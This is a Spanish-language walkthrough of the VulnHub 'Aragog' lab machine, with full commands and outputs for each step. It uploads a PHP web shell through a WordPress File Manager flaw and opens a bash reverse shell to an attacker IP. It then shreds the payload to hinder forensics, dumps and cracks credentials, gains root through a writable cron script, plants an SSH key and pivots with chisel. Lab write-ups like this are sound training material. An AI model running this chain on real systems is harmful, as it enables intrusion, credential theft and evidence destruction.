

---
# Guía paso a paso de explotación:

## Información general

- **Nombre**: Aragog
- **Plataforma**: VulnHub
- **Descarga**:  [Aragog](https://www.vulnhub.com/entry/harrypotter-aragog-102%2C688/)  
- **Nivel**: Fácil
- **IP**:  [Configuración de entorno](./Configuración%20de%20entorno.md)
- **Objetivo**: Obtener acceso root para pivotar por las diferentes redes del sistema


---

## Reconocimiento


Acción:

```bash
nmap -p- --open -sS -n -Pn --min-rate 5000 -v <IP_Objetivo> -oG allPorts
nmap -p80 -Pn -sCV <IP_Objetivo> -oN target 
nmap -p80 -Pn --script http-enum <IP_Objetivo> -oN enum 
```

Resultado:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 48:df:48:37:25:94:c4:74:6b:2c:62:73:bf:b4:9f:a9 (RSA)
|   256 1e:34:18:17:5e:17:95:8f:70:2f:80:a6:d5:b4:17:3e (ECDSA)
|_  256 3e:79:5f:55:55:3b:12:75:96:b4:3e:e3:83:7a:54:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)'

---

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /blog/: Blog
|_  /blog/wp-login.php: Wordpress login page.
```

Explicación: obtenemos un servidor web expuesto y un endpoint en `/blog/wp-login.php`

Acción:

```bash
gobuster dir -u http://192.168.1.82/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20

gobuster dir -u http://wordpress.aragog.hogwarts/blog/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html,php.bak,zip,tar --add-slash
```

Resultado:

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html/               (Status: 403) [Size: 290]
/.php/                (Status: 403) [Size: 290]
/index.php/           (Status: 301) [Size: 0] [--> http://wordpress.aragog.hogwarts/blog/]
/wp-content/          (Status: 403) [Size: 290]
/wp-login.php/        (Status: 200) [Size: 3328]
/wp-includes/         (Status: 403) [Size: 290]
/wp-trackback.php/    (Status: 200) [Size: 135]
/wp-admin/            (Status: 302) [Size: 0] [--> http://wordpress.aragog.hogwarts/blog/wp-login.php?redirect_to=http%3A%2F%2Fwordpress.aragog.hogwarts%2Fblog%2Fwp-admin%2F&reauth=1]
/xmlrpc.php/          (Status: 405) [Size: 42]
/.php/                (Status: 403) [Size: 290]
/.html/               (Status: 403) [Size: 290]
/wp-signup.php/       (Status: 302) [Size: 0] [--> http://wordpress.aragog.hogwarts/blog/wp-login.php?action=register]
```

Explicación: primero fuzzeamos por endpoint desde la ruta original `http://192.168.1.82/`. Al descubrir el endpoint `/blog/` fuzzeamos desde él, además cómo vimos que el endpoint `http://192.168.1.82/blog/` no resolvía bien, inspeccionamos el código fuente viendo que la página resuelve al dominio `wordpress.aragog.hogwarts` que es lo que añadimos al `/etc/hosts` para su resolución DNS. Además identificamos el gestor de contenido o Framework que hay sirve a esta web, este es WordPress

[Ver tutorial Gestores de contenido - WordPress](../../Gestores%20de%20contenido%20(CMS)/WordPress/)


---

## Explotación

Acción:

```bash
wpscan --url http://wordpress.aragog.hogwarts/blog/ --plugins-detection aggressive --api-token=$WPSCAN
```

Resultado:

```bash
 | [!] Title: File Manager 6.0-6.9 - Unauthenticated Arbitrary File Upload leading to RCE
 |     Fixed in: 6.9
 |     References:
 |      - https://wpscan.com/vulnerability/e528ae38-72f0-49ff-9878-922eff59ace9
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25213
 |      - https://blog.nintechnet.com/critical-zero-day-vulnerability-fixed-in-wordpress-file-manager-700000-installations/
 |      - https://www.wordfence.com/blog/2020/09/700000-wordpress-users-affected-by-zero-day-vulnerability-in-file-manager-plugin/
 |      - https://seravo.com/blog/0-day-vulnerability-in-wp-file-manager/
 |      - https://blog.sucuri.net/2020/09/critical-vulnerability-file-manager-affecting-700k-wordpress-websites.html
 |      - https://twitter.com/w4fz5uck5/status/1298402173554958338
```

Explicación: podemos hacer enumeración manual con herramientas como gobuster, pero para ir al grano, podemos usar la herramienta *wpscan*. Hemos encontrado multitud de vulnerabilidades en los plugins. Tomando una de ejemplo, podemos acudir al link donde nos muestra una prueba de concepto de su explotación. Si vamos a la url `https://wpscan.com/vulnerability/e528ae38-72f0-49ff-9878-922eff59ace9` se nos muestra un enlace a un exploit de python el cual podemos traernos a local de la siguiente manera

Acción:

```bash
wget https://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py
```

Acción: este script usa un archivo `payload.php` que tendremos que crearnos en el directorio donde ejecutemos el script

```php
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Explicación: creamos un archivo `payload.php` que contiene un script en php donde se nos permite ejecutar comandos a través del parámetro `cmd`

Acción:

```bash
python3 2020-wp-file-manager-v67.py http://wordpress.aragog.hogwarts/blog/
```

Resultado:

```bash
Just do it... URL: http://wordpress.aragog.hogwarts/blog//wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php
200
Success!?
http://wordpress.aragog.hogwarts/blog//blog/wp-content/plugins/wp-file-manager/lib/php/../files/payload.php
```

Explicación: ejecutamos el script, y vemos que se ha subido con éxito el archivo y se nos indica la ruta. Pero OJO, porque la ruta esta mal, hay una errata ya que por defecto nos duplica la ruta `/blog/` hay que borrar una para que quede bien, así: `http://wordpress.aragog.hogwarts/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php`

Acción:

```bash
http://wordpress.aragog.hogwarts/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php?cmd=whoami
```

Resultado:

```html
www-data
```

Explicación: hemos logrado un RCE. Por lo que podemos enviarnos una reverse shell del siguiente modo

Acción:

```bash
nc -lvnp 443
```

Acción:

```url
http://wordpress.aragog.hogwarts/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.66/443 0>%261"
```

Resultado:

```bash
listening on [any] 443 ...
connect to [192.168.1.66] from (UNKNOWN) [192.168.1.82] 39936
bash: cannot set terminal process group (663): Inappropriate ioctl for device
bash: no job control in this shell
<ress/wp-content/plugins/wp-file-manager/lib/files$ 
```

Explicación: hemos obtenido una shell, por lo que hemos ganado acceso al sistema. Ahora tendremos que tratar de elevar privilegios y/o pivotar a otro sistema dentro del alcance de red que pueda tener el sistema actualmente comprometido


---

## Post Explotación

Acción:

```bash
shred -zun 10 -v payload.php 
```

Resultado:

```bash
shred: payload.php: pass 1/11 (random)...
shred: payload.php: pass 2/11 (924924)...
shred: payload.php: pass 3/11 (492492)...
shred: payload.php: pass 4/11 (ffffff)...
shred: payload.php: pass 5/11 (b6db6d)...
shred: payload.php: pass 6/11 (random)...
shred: payload.php: pass 7/11 (aaaaaa)...
shred: payload.php: pass 8/11 (555555)...
shred: payload.php: pass 9/11 (000000)...
shred: payload.php: pass 10/11 (random)...
shred: payload.php: pass 11/11 (000000)...
shred: payload.php: removing
shred: payload.php: renamed to 00000000000
shred: 00000000000: renamed to 0000000000
shred: 0000000000: renamed to 000000000
shred: 000000000: renamed to 00000000
shred: 00000000: renamed to 0000000
shred: 0000000: renamed to 000000
shred: 000000: renamed to 00000
shred: 00000: renamed to 0000
shred: 0000: renamed to 000
shred: 000: renamed to 00
shred: 00: renamed to 0
shred: payload.php: removed
```

Explicación: Sobrescribimos el contenido de un fichero varias veces para dificultar su recuperación forense (escribimos datos aleatorios sobre los bloques y opcionalmente lo borramos); -z: al final hacemos una pasada adicional escribiendo ceros (0x00) para dejar el fichero con ceros en la última pasada; -u: borramos (unlink) el fichero tras sobrescribirlo; -n 10: realizamos 10 pasadas de datos aleatorios (3 suele ser suficiente); -v: modo verbose que muestra el progreso; payload.php: nombre del fichero objetivo.

Acción:

```bash
cd /etc/apache2/sites-enabled/
ls
```

Resultado:

```bash
000-default.conf  wordpress.conf
```

Acción:

```bash
cat wordpress.conf
```

Resultado:

```bash
Alias /blog /usr/share/wordpress
<Directory /usr/share/wordpress>
    Options FollowSymLinks
    AllowOverride Limit Options FileInfo
    DirectoryIndex index.php
    Order allow,deny
    Allow from all
</Directory>
<Directory /usr/share/wordpress/wp-content>
    Options FollowSymLinks
    Order allow,deny
    Allow from all
</Directory>
```

Explicación: como no encontrábamos nada en el directorio actual, ni en anteriores ni en el los usuarios del directorio `/home/`. Probamos a ver archivos que estén dentro del servidor web que es apache. Vemos un archivo `wordpress.conf` en el que obtenemos una ruta donde se encontrará todo el repositorio de WordPress que el sistema tenga configurado

Acción:

```bash
cd /usr/share/wordpress
ls
```

Resultado:

```bash
index.php    wp-activate.php  wp-blog-header.php    wp-config-sample.php  wp-content   wp-includes	 wp-load.php	wp-mail.php	wp-signup.php	  xmlrpc.php
readme.html  wp-admin	     wp-comments-post.php  wp-config.php	 wp-cron.php  wp-links-opml.php  wp-login.php	wp-settings.php  wp-trackback.php
```

Acción:

```bash
cat wp-config.php 
```

Resultado:

```bash
...
} elseif (file_exists("/etc/wordpress/config-default.php")) {
    require_once("/etc/wordpress/config-default.php");
    define('DEBIAN_FILE', "/etc/wordpress/config-default.php");
} else
...
```

Acción:

```bash
cat /etc/wordpress/config-default.php
```

Resultado:

```bash
<?php
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'mySecr3tPass');
define('DB_HOST', 'localhost');
define('DB_COLLATE', 'utf8_general_ci');
define('WP_CONTENT_DIR', '/usr/share/wordpress/wp-content');
?>
```

Explicación: obtuvimos unas credenciales de base de datos `root:mySecr3tPass`

Acción:

```bash
mysql -uroot -p 
```

Resultado:

```bash
Enter password: <mySecr3tPass>
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 12
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

Explicación: ganamos acceso a la base de datos como root. Por lo que trataremos de extraer las credenciales de los usuarios registrados

Acción: mostramos la secuencia de comandos y el resultado final

```bash
show databases;
use wordpress;
describe wp_users;
select * from wp_users;
```

Resultado:

```bash
+----+------------+------------------------------------+---------------+--------------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email               | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+--------------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | hagrid98   | $P$BYdTic1NGSb8hJbpVEMiJaAiNJDHtc. | wp-admin      | hagrid98@localhost.local |          | 2021-03-31 14:21:02 |                     |           0 | WP-Admin     |
+----+------------+------------------------------------+---------------+--------------------------+----------+---------------------+---------------------+-------------+--------------+
1 row in set (0.000 sec)
```

Explicación: encontramos las siguientes credenciales: `hagrid98:$P$BYdTic1NGSb8hJbpVEMiJaAiNJDHtc.`; vemos que esta hasheada por lo que trataremos de descifrarla con [Jhon The Ripper](../../Herramientas/Fuerza%20Bruta/John%20The%20Ripper.md)

Acción:

```bash
john -w:/usr/share/wordlists/rockyou.txt data
```

Resultado:

```bash
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)     
1g 0:00:00:00 DONE (2025-09-25 13:36) 7.142g/s 10971p/s 10971c/s 10971C/s 753951..mexico1
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed. 
```

Explicación: obtuvimos las credenciales `hagrid98:password123`


Acción:

```bash
su hagrid98
```

Resultado:

```bash
Password: <password123>
hagrid98@Aragog:/usr/share/wordpress$ whoami
hagrid98
```

Explicación: conseguimos un primer pivoting interno, donde migramos de un usuario de bajos privilegios a un usuario normal, aún sin privilegios avanzados pero con posibilidad de seguir elevando privilegios y poder pivotar


---
### Elevación de privilegios


Acción:

```bash
ssh hagrid98@<ip_objetivo>
export TERM=xterm
```

**Password:** `password123`

[Aplicar tratamiento de TTY](../Tratamiento%20de%20la%20TTY/TTY%20Interactiva.md)

Explicación: nos conectamos por vía ssh y hacemos un tratamiento de la terminal

Acción:

```bash
cd /
find \-perm -4000 2>/dev/null
```

Resultado:

```bash
./usr/bin/newgrp
./usr/bin/chfn
./usr/bin/mount
./usr/bin/su
./usr/bin/passwd
./usr/bin/chsh
./usr/bin/gpasswd
./usr/bin/umount
./usr/lib/openssh/ssh-keysign
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/eject/dmcrypt-get-device
```

Explicación: vamos a la raíz del sistema y buscamos archivos con permisos SUID. Pero no encontramos ninguno que sea vulnerable

[Ver permisos SUID](../Escalada%20de%20privilegios/SUID.md)

Acción:

```bash
find \-user hagrid98 2>/dev/null
```

Resultado:

```bash
./proc/908/timerslack_ns
./proc/908/patch_state
./opt/.backup.sh --> Este es raro
./sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service
```

Explicación: buscamos archivos cuyo propietario sea el usuario `hagrid98`. Y encontramos un script llamado `backup.sh`. Merece la pena inspeccionar que hace

Acción:

```bash
cat /opt/.backup.sh
ls -l /opt/.backup.sh
ls -l /tmp/tmp_wp_uploads 
```

Resultado:

```bash
#!/bin/bash

cp -r /usr/share/wordpress/wp-content/uploads/ /tmp/tmp_wp_uploads
---
-rwxr-xr-x 1 hagrid98 hagrid98 81 Apr  1  2021 /opt/.backup.sh
---
total 16
drwxr-xr-x 5 root root 4096 Sep 25 20:10 2021
drwxr-xr-x 3 root root 4096 Sep 25 20:10 2025
drwxr-xr-x 5 root root 4096 Sep 25 20:12 uploads
drwxr-xr-x 3 root root 4096 Sep 25 20:10 wp-file-manager-pro
```

Explicación: vemos que el script crea una copia temporal de lo almacenado en la ruta `/usr/share/wordpress/wp-content/uploads/` en la ruta `/tmp/tmp_wp_uploads` y además el propietario de esta última ruta es `root` por lo que la escalada de privilegios va a ser tan sencilla como hacer lo siguiente

Acción:

```bash
ls -l /bin/bash
nano /opt/.backup.sh
ls -l /bin/bash
bash -p
```

Resultado:

```bash
-rwxr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
---
#!/bin/bash

cp -r /usr/share/wordpress/wp-content/uploads/ /tmp/tmp_wp_uploads 
chmod u+s /bin/bash
---
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
---
bash-5.0# whoami
root
```

Explicación: añadimos el comando para dar permisos SUID a la bash. Al ejecutarse la tarea cron que debe de estar corriendo por detrás se modifica los permisos de `/bin/bash`. Obteniendo una shell como usuario root ejecutando `bash -p`


---

### Persistencia


Acción:

```bash
cd /root/.ssh
nano authorized_keys
exit
ssh root@192.168.1.82
```

**Nota:** desde la máquina atacante generamos un par de claves pública y privada para poder copiar en el directorio `/roor/.ssh/` y ganar persistencia a la máquina objetivo. Para ello en la máquina atacante ejecutamos `ssh-keygen` y le damos a `Enter` tres veces (las que pide) para generar las claves, no hay que escribir nada, solo ejecutar `cat ~/.ssh/id_rsa.pub | tr -d '\n' | xclip -sel clip` para copiar en la clipboard la contraseña pública y poder pegarla en la máquina objetivo en un archivo llamado `authorized_keys` y guardado en la ruta `/root/.ssh/`

Explicación: generamos una clave ssh que almacenamos en la raíz del sistema root, para poder conectarnos sin otorgar contraseña cuando queramos a la máquina objetivo


---

## Pivoting


Script: hostDiscovery.sh

```bash
#!/bin/bash

for i in $(seq 1 254); do
  timeout 1 bash -c "ping -c 1 10.10.0.$i" &>/dev/null && echo "[+] Host 10.10.0.$i - ACTIVO" &
done; wait
```

Script: host_portDiscovery.sh 

```bash
#!/bin/bash

for i in $(seq 1 254); do
  for port in 12 22 53 80 443 445 8080; do
    timeout 1 bash -c "echo '' > /dev/tcp/10.10.0.$i/$port" &>/dev/null && echo "[+] Host 10.10.0.$i -PORT $port - ABIERTO" &
  done
done; wait
```

Resultado:

```bash
[+] Host 10.10.0.1 - ACTIVO
[+] Host 10.10.0.128 - ACTIVO
[+] Host 10.10.0.129 - ACTIVO
```

Resultado:

```bash
[+] Host 10.10.0.128 -PORT 22 - ABIERTO
[+] Host 10.10.0.129 -PORT 80 - ABIERTO
[+] Host 10.10.0.129 -PORT 22 - ABIERTO
[+] Host 10.10.0.128 -PORT 80 - ABIERTO
```

Explicación: con estos scripts, vemos que tenemos comunicación con el host `10.10.0.129`

Acción: usamos `chisel` para hacer tunneling y abrir una ruta entre el host `nagini 10.10.0.129` y nuestro `Parrot 192.168.1.66` a través de `Aragog 192.168.1.82 - 10.10.0.128`

### Tunneling 

[Para descargar chisel](https://github.com/jpillora/chisel/releases/tag/v1.11.3) 
Descomprimir con `7z x <nombre_Archivo>` y dar permisos de ejecución `chmod +x <nombre_del_decomprimido>` si hace falta renombrar con `mv <nombre_descromprimido> <chisel>`

`./chisel`

```bash
 Usage: chisel [command] [--help]

  Version: 1.11.3 (go1.25.1)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```

Acción: transferir *chisel* a la máquina objetivo *Aragog* desde máquina atacante

```bash
python3 -m http.server 80
```

Acción: desde *Aragog*

```bash
wget http://<IP_atacante>/chisel
```

**Alternativa:**

```bash
scp chisel root@192.168.1.82:/tmp/chisel
```

Explicaicón: de diferentes formas hemos transferido el ejecutable *chisel* a la máquina objetivo (Aragog)

Acción: desde máquina atacante, **debe ejecutarse como usuario root o con sudo**

```bash
./chisel server --reverse -p 1234
```

Resultado:

```bash
2025/09/26 00:27:58 server: Reverse tunnelling enabled
2025/09/26 00:27:58 server: Fingerprint 4AUc811HWBv6UJ0UeDpjF7T8J6nOq/g1Jt7DIyDisjE=
2025/09/26 00:27:58 server: Listening on http://0.0.0.0:1234
```

Explicación: ejecutamos un **servidor Chisel** que escucha en el puerto `1234` y permite que clientes remotos **inicien túneles inversos** hacia nosotros, es decir, el tráfico desde el cliente llegará al servidor a través del túnel

Acción:

```bash
./chisel client 192.168.1.66:1234 R:80:10.10.0.129:80
```

Resultado:

```bash
2025/09/26 04:05:48 client: Connecting to ws://192.168.1.66:1234
2025/09/26 04:05:48 client: Connected (Latency 831.354µs)
```

Explicación: nos conectamos desde la máquina objetivo al servidor chisel en `192.168.1.66:1234` y abrimos un túnel inverso que redirige el puerto local 80 del servidor atacante `10.10.0.129` hacia el puerto 80 de nuestra máquina cliente.

Acción: como mediante port-forwarding hemos hecho que el puerto 80 de Nagini corra por nuestro puerto 80 podemos ir a la ruta `localhost` y ver la página web que solo veríamos desde el host 10.10.0.129

```bash
http://localhost/
```

Una opción más avanzada, que requiere de usar y configurar [Proxychains](../Proxy/proxychains_PoC_tutorial.md)

Acción: desde Aragog

```bash
./chisel client 192.168.1.66:1234 R:socks
```

Al lanzar este cliente en nuestra máquina atacante, donde ejecutamos el servidor chisel, obtendremos: `proxy#R:127.0.0.1:1080=>socks: Listening`, es decir, por defecto se abre una comunicación por el puerto 1080. Lo que tendremos que hacer es añadir este host a nuestro archivo de configuración de proxychains

```bash
nano /etc/proxychains 
```

De momento tenemos que tener `strict_chain` descomentado y en el apartado `[Proxy List]` añadir al host de chisel  `socks5 127.0.0.1 1080`

**Nota:** como estamos utilizando *proxychains* necesitamos indicar cuando ejecutemos comandos que queremos pasar por el túnel creado

[Ver Nagini explotación](./Nagini%20explotación.md)

  

---
